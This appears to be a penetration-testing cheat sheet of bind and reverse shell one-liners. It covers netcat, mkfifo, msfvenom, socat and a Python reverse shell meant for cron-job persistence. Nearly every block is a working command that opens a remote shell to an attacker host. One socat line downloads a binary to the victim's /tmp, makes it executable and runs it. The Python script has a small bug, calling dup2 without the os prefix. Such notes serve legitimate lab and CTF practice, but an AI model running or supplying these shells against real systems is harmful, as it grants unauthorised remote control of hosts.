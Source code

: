 ### Bind/Reverse Shells

#### Kali Shells
```
# Several shells located in Kali at
/usr/share/laudanum/
```

#### Bind Shell (don't work behind firewalls)
```
# On Windows machine offer shell
nc -lvp 4444 -e cmd.exe

# On Kali machine connect
nc -nv win.dow.si.p 4444
```
#### Reverse Shell
```
# On Kali Machine listen for connection
nc -lvp 4444

# On target machine
nc -nv att.ac.kin.gip 4444 -e /bin/bash
```
### Improving your Shell
```
# Python one liner
python -c 'import pty; pty.spawn("/bin/bash")'

# Python to make fully interactive
python -c 'import pty; pty.spawn("/bin/sh")'
# Then ctrl-z to background shell and run
stty raw -echo
fg
# It will look ugly but just type the following
reset
# If this shell is the incorrect size for your terminal, type
stty size
# And specify the size
stty -rows 48 -columns 120

# Perl
perl —e 'exec "/bin/sh";'
```
### If using netcat and -e option not available, use this one liner
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
### Improving your Shell with msfvenom one-liners
```
# List the options
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'

# Select and use one
msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.3.4 LPORT=4444 R
```

### Using socat to invoke full interactive shell
```
# On attacking machine, listen with socat
socat file:`tty`,raw,echo=0 tcp-listen:4444

# On victim machine with socat already installed, replace 10.0.3.4 with attacking ip
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

# On victim machine without socat installed
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

```

### Error opening terminal: 
```
# If getting Error opening terminal: xterm-256color.
export TERM=xterm
```
### Python shell suitable for .py file cron jobs
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.7",4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```
